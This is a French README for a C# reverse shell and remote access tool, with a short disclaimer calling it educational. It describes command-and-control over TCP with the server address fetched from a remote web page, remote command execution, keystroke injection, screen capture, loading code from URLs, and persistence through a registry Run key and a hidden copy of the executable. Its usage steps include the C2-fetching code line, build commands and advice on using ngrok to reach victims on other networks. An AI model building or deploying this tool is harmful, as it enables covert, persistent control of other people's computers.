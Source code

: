 # README.MD
### Description du projet

Ce projet est une démonstration d'une reverse shell écrite en C#. Il s'agit d'un outil puissant pour la gestion à distance des systèmes, utilisé à des fins éducatives et de recherche.

#### Points clés du code

1. Connexion réseau : Le code utilise la classe TcpClient pour établir une connexion réseau avec un serveur distant. L'adresse IP et le port du serveur sont récupérés à partir d'un serveur web distant.

2. Cryptographie : Pour assurer la sécurité des communications, le code utilise l'algorithme de hachage SHA256 et un chiffrement XOR ainsi que le chiffrement RSA Pour un chiffrement simple de bout en bout. Les clés sont régénérées à chaque itération pour augmenter la sécurité.

3. Gestion des commandes : Le code est capable de lire les commandes à partir du flux de sortie standard d'un processus et de les envoyer au serveur. Il peut également lire les commandes du serveur et les exécuter sur la machine locale.

4. Fonctionnalités supplémentaires : Le code comprend des fonctionnalités supplémentaires telles que l'envoi de frappes de clavier, l'affichage de boite de messages, l'exécution de commandes de manière asynchrone, la capture d'écran à distance et le chargement de librarie .NET à partir d'URL.

5. Persistante : Le code tente de rendre la reverse shell persistante en ajoutant une entrée au registre Windows pour exécuter le programme au démarrage de la session de l'utilisateur. Il copie également le fichier exécutable dans un répertoire caché.


#### Utilisation
Pour télécharger .Net 7.0 en version portable, voir ici : https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.306-windows-x64-binaries

lien directe : https://download.visualstudio.microsoft.com/download/pr/3c443568-43b0-40b1-bb5c-3a6d8cd31876/e7d6c5b176b1c985a5f972dbf2c721b3/dotnet-sdk-7.0.306-win-x64.zip

##### compiler le client : 
Pour commencer, changer l'url à ligne 158 de client\Program.cs
```
string ip_port = new WebClient().DownloadString("https://outofhere.example.repl.co/");  // replace by YOUR WebServer url
```
ensuite compilez le client avec dotnet.exe
```
dotnet.exe publish client.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
client\bin\Debug\net7.0-windows\win-x64\publish
```
Puis publier le serveur : 
```
dotnet.exe publish server.csproj
```
Le binaire en un seul fichier se trouve a l'emplacement suivant : 
```
server\bin\Debug\net7.0-windows\win-x64\publish
```
Pour se connecter au serveur depuis un autre reseau que le client, je vous conseille d'utiliser le service de tunneling ngrok et d'ajouter l'addresse IP et le port sur un serveur web avec un domaine fixe (par exemple sur un repl HTML, CSS, JS sur https://replit.com)
// L'addresse IP et le port doivent êtres séparré par deux points uniquement
ex : 
```
1.2.3.4:8080
```
### Démonstration

#### Pour information, les vidéos ont été enregistrées sur la même machine avec la protection en temps réel activée [sans envoyer d'échantillons], mais c'est bien CLIENT.EXE qui effectue les actions.

##### - Reverse Shell Si vous ne le voyez pas : https://github.0xsql.repl.co/reverse_shell.gif
<img src="https://github.0xsql.repl.co/reverse_shell.gif">

##### MessageBox et SendKeys
Si vous ne le voyez pas : https://github.0xsql.repl.co/send_keys_and_msgb.gif
<img src="https://github.0xsql.repl.co/send_keys_and_msgb.gif">
Exemple de commande msgb>/Votre Message SKS>/Vos Clés

##### remote-desktop
voir dans le repositry : remote-desktop.gif
Pour démarrer le bureau à distance, exécutez server-remote-video.exe dans remote-video\server-remote-video\server\bin\Debug et exécutez la commande sur server.exe : remote-desktop>/:8081

#### Avertissement

Ce projet est publié à des fins éducatives et de recherche. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.
